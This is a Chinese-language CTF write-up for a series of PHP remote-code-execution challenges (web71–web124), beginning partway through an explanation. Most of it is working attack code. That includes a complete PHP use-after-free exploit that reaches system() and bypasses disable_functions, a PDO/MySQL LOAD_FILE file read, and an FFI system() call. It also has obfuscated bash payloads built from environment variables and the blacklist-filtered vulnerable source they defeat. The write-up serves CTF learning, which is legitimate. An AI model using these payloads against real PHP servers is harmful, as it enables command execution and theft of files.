- 这行代码使用`preg_replace()`函数对变量`$s`的内容进行正则表达式替换。它查找所有数字（0-9）和小写字母（a-z），并将它们替换为问号（"?"）。正则表达式中的`i`修饰符表示不区分大小写，但在这个特定的表达式中，由于只指定了小写字母，所以`i`实际上没有作用。最终，处理后的字符串通过`echo`输出。

### 对缓冲区的理解

在 `eval()` 执行后，这行代码获取当前输出缓冲区的内容，并将其存储在变量 `$s` 中。输出缓冲区可能包含由 `$c` 中的代码生成的任何输出。

所以这段代码的目的是捕获执行 `$c` 中的代码后产生的输出，然后对这个输出进行处理（即替换掉所有的数字和小写字母），而不是直接处理 `$c` 中的代码字符串本身。

当PHP脚本执行时，它可能会生成各种输出，比如HTML内容、文本、图像等。默认情况下，这些输出会立即发送到客户端（如浏览器）。但是，通过使用输出缓冲函数，PHP允许开发者将这些输出先存储在内存中的一个缓冲区中，而不是立即发送。

那我们应该做的有两件事:

1.绕过正则匹配

2.绕过缓冲区

这里我们只需要提前退出缓冲区就可以避免我们eval执行的代码输出的内容经过正则匹配，因此不需要绕过正则匹配

## 对于绕过缓冲区

### 1.提前送出缓冲区

可用的函数:

#### ob_flush()函数

`ob_flush()` 函数在 PHP 中用于刷新（输出）当前输出缓冲区的内容。当输出缓冲被激活时（通常通过 `ob_start()` 函数），PHP 脚本的输出不会立即发送到客户端（如浏览器），而是先存储在内部缓冲区中。`ob_flush()` 函数会将缓冲区的内容发送到客户端，但不一定清空缓冲区本身，这取决于 PHP 的配置和输出缓冲机制的状态。

#### flush()函数

- `flush()` 函数尝试将输出缓冲区的内容发送到客户端。但是，如果 PHP 的输出缓冲和 Web 服务器的输出缓冲同时被激活，`flush()` 可能不会清空 PHP 的输出缓冲区，只会尝试清空 Web 服务器的输出缓冲区。
- `ob_flush()` 函数确保 PHP 的输出缓冲区内容被发送到客户端。如果同时调用了 `flush()`，则可能尝试同时清空 PHP 和 Web 服务器的输出缓冲区。

#### ob_end_flush()函数

`ob_end_flush();` 函数在 PHP 中用于结束当前的输出缓冲区，并将缓冲区的内容发送到客户端（如浏览器）。这个函数结合了 `ob_end_clean();` 和 `ob_flush();` 的功能：它首先会发送缓冲区的内容（如果缓冲区不为空），然后关闭（结束）当前的输出缓冲块。

1. **与** `**ob_end_clean();**` **的区别**：

- `ob_end_clean();` 只是清空（丢弃）缓冲区的内容，并不发送它到客户端。
- `ob_end_flush();` 则会发送内容，并结束缓冲。

1. **与** `**ob_flush();**` **的区别**：

- `ob_flush();` 只会发送缓冲区的内容到客户端，但不会结束缓冲块。这意味着缓冲区仍然存在，之后的输出仍然可以被添加到这个缓冲区中（直到另一个 `ob_end_...` 函数被调用）。

### 2.结束程序

提前终止程序，即执行完代码直接退出，可以调用的函数有：

#### exit()函数

- 当 `exit()` 被调用时，PHP 脚本会立即停止执行，后面的代码将不会被运行。
- `exit()` 函数在 PHP 中用于终止脚本的执行。当 `exit()` 被调用时，脚本会立即停止运行，并且不再执行后面的代码。此外，`exit()` 函数还可以选择性地输出一条消息到客户端（如浏览器）。

#### die()函数

`die()` 函数的行为实际上与 exit() 函数完全相同；它们都可以用来终止脚本，并且都可以接受一个可选的字符串参数作为要输出的消息。在 PHP 文档中，`die()` 函数有时被描述为 `exit()` 函数的别名，专门用于在出现致命错误时终止脚本。

payload示例：

```plain
c=include('/flag.txt');exit();
c=include('/flag.txt');die();
```

所以以上两个方法，都只是在原来的dpayload后面加上对应的函数就可以了，做法其实大同小异

## web72

正常的用71的方法做一下

```
c=var_export(scandir('/'));exit();
```

发现scandir()函数不能用了，不能正常查看目录

后来查过报错后发现这个错误信息显示的是在尝试使用 `scandir()` 函数打开一个目录时，操作没有被允许。这通常是因为当前运行 PHP 脚本的用户没有足够的权限去访问指定的目录。这是由于 open_basedir 限制，这个操作被禁止了。open_basedir 是 PHP 的一个安全配置指令，用来限制 PHP 脚本只能访问特定的目录。

当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。

解题思路:

此题过滤了scandir(),readdir(),opendir()

首先要查看flag所在的地方，这里可以用glob伪协议，此协议筛选目录不受open_basedir的制约

PHP 的 `glob()` 函数，它用于查找与指定模式匹配的文件路径。`glob()` 函数返回一个包含匹配文件或目录的数组，或者在没有匹配项时返回 `false`

### 1、目录文件扫描

```
c= ?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0); ?>
```

```
c=?><?php $a=new DirectoryIterator("glob:///*");//*创建一个DirectoryIterator对象，遍历根目录*

foreach($a as $f)//*// 遍历每个条目*

{

   echo($f->__toString().' ');//*// 输出条目的名称，并添加一个空格*

}

exit(0);

?>
```

查看到目录有flag0.txt文件

2、读取文件内容 

该题需要使用UAF脚本，利用了 php 的垃圾回收机制。代码涉及到偏移地址之类的

### UAF脚本

UAF（Use After Free）漏洞的脚本通常涉及对已经被释放的内存块（堆块）的非法访问或操作。这种漏洞常常发生在编程中，当程序释放了一个内存块后，没有正确地将其指针置为空（NULL）或进行其他形式的清理，导致后续代码仍然可以通过该指针访问已经释放的内存区域。

在编写UAF漏洞的利用脚本时，攻击者通常会尝试执行以下步骤：

1. **申请内存块**：首先，攻击者会通过合法的手段（如malloc、new等）申请一个或多个内存块。
2. **释放内存块**：接着，攻击者会释放其中一个或多个内存块，但故意不将相关的指针置为空。
3. **利用未置空的指针**：在内存块被释放后，攻击者会尝试通过之前未置空的指针来访问或修改这块已经释放的内存区域。由于这块内存可能已经被重新分配给其他用途，因此这种访问或修改可能会导致不可预测的行为，包括信息泄露、任意代码执行等。
4. **实现攻击目标**：通过精心构造的输入或操作，攻击者可以利用UAF漏洞实现各种攻击目标，如获取敏感信息、提升权限、执行任意代码等。

这里直接给出大佬的脚本:

```php
c=?><?php
pwn("ls /;cat /flag0.txt");

function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```

经过url编码后传进去就可以拿到flag!

# web73--74

73本题没有open_basedir限制，但74题是过滤了scandir()函数，所以都可以用72的伪协议去查看目录

试一下这个发现可以用

```
c=var_export(scandir('/'));exit();
```

也可以用72的伪协议去查看目录

include()函数也可以用

```
c=include("/flagc.txt");exit();
```

# web75--76

用伪协议查看文件目录 后发现这道题include_path限制了文件包含的路径，无法直接使用include包含得到flag信息,

这里直接摘抄大佬的wp里的payload:

payload:

```php
try {
	# 创建 PDO 实例, 连接 MySQL 数据库
	$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
	
	# 在 MySQL 中，load_file(完整路径) 函数读取一个文件并将其内容作为字符串返回。
	foreach($dbh->query('select load_file("/flag36.txt")') as $row) {
		echo($row[0])."|";
	}
	
	$dbh = null;
}

catch (PDOException $e) {
	echo $e->getMessage();exit(0);
}

exit(0);
```

采用mysql里面的

### LOAD_FILE()函数

**文件读取**：`LOAD_FILE()` 函数允许数据库用户读取服务器上的任意文件

# web77

正常使用伪协议看目录

然后发现各种做法都不能做，果断看wp:

c=$ffi = FFI::cdef("int system(const char *command);");$a='/readflag > 1.txt';$ffi->system($a);exit();

解释一下:

$ffi = FFI::cdef("int system(const char *command);");  //创建一个system对象

$a='/readflag > 1.txt';  //因为页面不会回显，所以将内容输出到1.txt

$ffi->system($a);  //通过$ffi去调用system函数 

讲一下FFI

### FFI原理

FFI，php7.4 以上才有。

**FFI**（Foreign Function Interface），即外部函数接口，是指在一种语言里调用另一种语言代码的技术。PHP 的 FFI 扩展就是一个让你在 PHP 里调用 C 代码的技术。

# web118

## #内置变量绕过

提示flag在flag.php中



在源码里面有一段注释掉的

```
<!-- system($code);-->
```

应该就是传参给code了

测试了一下发现数字字母都禁用了，试一下无数字字母rce，然后测出来自增和异或都用不了，一开始想做取反的但是括号也禁用了，这时候又是一个新姿势就是用系统环境变量进行绕过，详细的我写在RCE的文章里了，这里就直接给payload了

```
${PATH:~A}${PWD:~A} ????.???
```

通过环境变量构造出字符nl，任何字母取反后都是数字0，然后用?号去匹配文件名flag.php

# web119

一样的界面，不过PATH被过滤了，试试别的环境变量

这里放一位师傅的构造字符的姿势



然后我们可以通过bash运行cat命令，那我们的payload就是

```
方法一：
/???/?a? ????.???
payload：
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
一开始这个payload打不出来估计是匹配不到，后面把t置换一下才可以
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
方法二：
/???/??t ????.???
payload
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
方法三：
构造/bin/base64 flag.php
/???/?????4 ????.???
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```



不过我${USER:~A}的结果是t，可能当前用户是www-data吧结果输出出来就是a，但是一开始只匹配?a?不太行，最后直接构造/???/?at去精准匹配了

后续：哦原来第一个payload是可以打出来的不过我没注意看有flag

# web120

这次是给出源码了

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

HOME也被禁用了，长度也限制了但是第一个payload可以打，直接用就行



# web121

这次过滤了所有的环境变量

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

先输出可用字符

```
# $ . : ; ? @ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z { } 
```

虽然过滤了SHLVL，但是可用用其他的表示1，那就可以用上面的base64的

```
构造/bin/base64 flag.php
/???/?????4 ????.???
${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.???
```

根据上面的图片去替换就可以，再次感谢那位师傅的图



不过RANDOM是随机出现整数，范围为0-32767。然后加上#号表示的是这个变量的值的长度，例如`${#1234}`的结果就是4

# web122

这次连PWD和#都过滤了

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

 还是需要构造的

看了其他的环境变量发现HOME还没被过滤，用来返回当前用户的主目录路径。不管怎么样第一个都是`/`，那就可以拿第三个payload去打

```
/???/???4 ????.???
```

然后我们只需要解决一个如何构造数字的问题。我们需要数字`1`和`4`。

我们可以利用`$?`，获取上一条命令执行结束后的返回值，`0`代表成功，`非0`代表失败。

```
root@dkhkv28T7ijUp1amAVjh:/# echo ${HOME:~~A}
/root
root@dkhkv28T7ijUp1amAVjh:/# echo $?
0
root@dkhkv28T7ijUp1amAVjh:/# lss
Command 'lss' not found, but there are 15 similar ones.
root@dkhkv28T7ijUp1amAVjh:/# echo $?
127
```

但是这里并不是1，该怎么做呢

错误代码的非0返回值如下

```
"OS error code   1:  Operation not permitted"
"OS error code   2:  No such file or directory"
"OS error code   3:  No such process"
"OS error code   4:  Interrupted system call"
"OS error code   5:  Input/output error"
"OS error code   6:  No such device or address"
"OS error code   7:  Argument list too long"
"OS error code   8:  Exec format error"
"OS error code   9:  Bad file descriptor"
"OS error code  10:  No child processes"
"OS error code  11:  Resource temporarily unavailable"
"OS error code  12:  Cannot allocate memory"
"OS error code  13:  Permission denied"
"OS error code  14:  Bad address"
"OS error code  15:  Block device required"
"OS error code  16:  Device or resource busy"
"OS error code  17:  File exists"
"OS error code  18:  Invalid cross-device link"
"OS error code  19:  No such device"
"OS error code  20:  Not a directory"
"OS error code  21:  Is a directory"
"OS error code  22:  Invalid argument"
"OS error code  23:  Too many open files in system"
"OS error code  24:  Too many open files"
"OS error code  25:  Inappropriate ioctl for device"
"OS error code  26:  Text file busy"
"OS error code  27:  File too large"
"OS error code  28:  No space left on device"
"OS error code  29:  Illegal seek"
"OS error code  30:  Read-only file system"
"OS error code  31:  Too many links"
"OS error code  32:  Broken pipe"
"OS error code  33:  Numerical argument out of domain"
"OS error code  34:  Numerical result out of range"
"OS error code  35:  Resource deadlock avoided"
"OS error code  36:  File name too long"
"OS error code  37:  No locks available"
"OS error code  38:  Function not implemented"
"OS error code  39:  Directory not empty"
"OS error code  40:  Too many levels of symbolic links"
"OS error code  42:  No message of desired type"
"OS error code  43:  Identifier removed"
"OS error code  44:  Channel number out of range"
"OS error code  45:  Level 2 not synchronized"
"OS error code  46:  Level 3 halted"
"OS error code  47:  Level 3 reset"
"OS error code  48:  Link number out of range"
"OS error code  49:  Protocol driver not attached"
"OS error code  50:  No CSI structure available"
"OS error code  51:  Level 2 halted"
"OS error code  52:  Invalid exchange"
"OS error code  53:  Invalid request descriptor"
"OS error code  54:  Exchange full"
"OS error code  55:  No anode"
"OS error code  56:  Invalid request code"
"OS error code  57:  Invalid slot"
"OS error code  59:  Bad font file format"
"OS error code  60:  Device not a stream"
"OS error code  61:  No data available"
"OS error code  62:  Timer expired"
"OS error code  63:  Out of streams resources"
"OS error code  64:  Machine is not on the network"
"OS error code  65:  Package not installed"
"OS error code  66:  Object is remote"
"OS error code  67:  Link has been severed"
"OS error code  68:  Advertise error"
"OS error code  69:  Srmount error"
"OS error code  70:  Communication error on send"
"OS error code  71:  Protocol error"
"OS error code  72:  Multihop attempted"
"OS error code  73:  RFS specific error"
"OS error code  74:  Bad message"
"OS error code  75:  Value too large for defined data type"
"OS error code  76:  Name not unique on network"
"OS error code  77:  File descriptor in bad state"
"OS error code  78:  Remote address changed"
"OS error code  79:  Can not access a needed shared library"
"OS error code  80:  Accessing a corrupted shared library"
"OS error code  81:  .lib section in a.out corrupted"
"OS error code  82:  Attempting to link in too many shared libraries"
"OS error code  83:  Cannot exec a shared library directly"
"OS error code  84:  Invalid or incomplete multibyte or wide character"
"OS error code  85:  Interrupted system call should be restarted"
"OS error code  86:  Streams pipe error"
"OS error code  87:  Too many users"
"OS error code  88:  Socket operation on non-socket"
"OS error code  89:  Destination address required"
"OS error code  90:  Message too long"
"OS error code  91:  Protocol wrong type for socket"
"OS error code  92:  Protocol not available"
"OS error code  93:  Protocol not supported"
"OS error code  94:  Socket type not supported"
"OS error code  95:  Operation not supported"
"OS error code  96:  Protocol family not supported"
"OS error code  97:  Address family not supported by protocol"
"OS error code  98:  Address already in use"
"OS error code  99:  Cannot assign requested address"
"OS error code 100:  Network is down"
"OS error code 101:  Network is unreachable"
"OS error code 102:  Network dropped connection on reset"
"OS error code 103:  Software caused connection abort"
"OS error code 104:  Connection reset by peer"
"OS error code 105:  No buffer space available"
"OS error code 106:  Transport endpoint is already connected"
"OS error code 107:  Transport endpoint is not connected"
"OS error code 108:  Cannot send after transport endpoint shutdown"
"OS error code 109:  Too many references: cannot splice"
"OS error code 110:  Connection timed out"
"OS error code 111:  Connection refused"
"OS error code 112:  Host is down"
"OS error code 113:  No route to host"
"OS error code 114:  Operation already in progress"
"OS error code 115:  Operation now in progress"
"OS error code 116:  Stale NFS file handle"
"OS error code 117:  Structure needs cleaning"
"OS error code 118:  Not a XENIX named type file"
"OS error code 119:  No XENIX semaphores available"
"OS error code 120:  Is a named type file"
"OS error code 121:  Remote I/O error"
"OS error code 122:  Disk quota exceeded"
"OS error code 123:  No medium found"
"OS error code 124:  Wrong medium type"
"OS error code 125:  Operation canceled"
"OS error code 126:  Required key not available"
"OS error code 127:  Key has expired"
"OS error code 128:  Key has been revoked"
"OS error code 129:  Key was rejected by service"
"OS error code 130:  Owner died"
"OS error code 131:  State not recoverable"
"MySQL error code 132: Old database file"
"MySQL error code 133: No record read before update"
"MySQL error code 134: Record was already deleted (or record file crashed)"
"MySQL error code 135: No more room in record file"
"MySQL error code 136: No more room in index file"
"MySQL error code 137: No more records (read after end of file)"
"MySQL error code 138: Unsupported extension used for table"
"MySQL error code 139: Too big row"
"MySQL error code 140: Wrong create options"
"MySQL error code 141: Duplicate unique key or constraint on write or update"
"MySQL error code 142: Unknown character set used"
"MySQL error code 143: Conflicting table definitions in sub-tables of MERGE table"
"MySQL error code 144: Table is crashed and last repair failed"
"MySQL error code 145: Table was marked as crashed and should be repaired"
"MySQL error code 146: Lock timed out; Retry transaction"
"MySQL error code 147: Lock table is full;  Restart program with a larger locktable"
"MySQL error code 148: Updates are not allowed under a read only transactions"
"MySQL error code 149: Lock deadlock; Retry transaction"
"MySQL error code 150: Foreign key constraint is incorrectly formed"
"MySQL error code 151: Cannot add a child row"
"MySQL error code 152: Cannot delete a parent row"
```

我们关注能返回1的命令就行，其实就是权限问题，但是很多权限的命令都是有字母的，然后看到了一个<A是可以返回1的

```
payload：（${Z}代表0）

code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???

code=<A;${HOME:${Z}:$?}???${HOME:${Z}:$?}?????${RANDOM::$?} ????.???
```

这里的话也是有概率的，需要多次刷新

# web124

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```
